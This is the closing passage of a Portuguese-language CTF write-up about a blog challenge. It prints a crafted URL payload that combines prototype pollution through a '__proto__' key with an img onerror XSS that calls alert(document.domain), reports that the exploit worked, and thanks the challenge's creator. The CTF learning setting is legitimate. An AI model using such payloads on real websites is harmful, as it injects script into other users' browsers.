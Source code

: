 ```jsx
/?page=XSSPage&userId=asdfg", "__proto__": {"XSSPage": "<img src\u003Dx onerror\u003D\"alert(document.domain)\">"}, "qwerty": "zxcvb
```

![](images/XSS.png)

Sucesso! Ao visitar o site um **alert** é executado, comprovando que conseguimos um XSS no site.

Com isso finalizo o writeup do CTF do blog do SiDiney. Espero que tenham conseguido aprender algo novo com a leitura. Obrigado Rafael Santos pela criação do CTF, e pela licença do Burp pro. (*￣▽￣*)
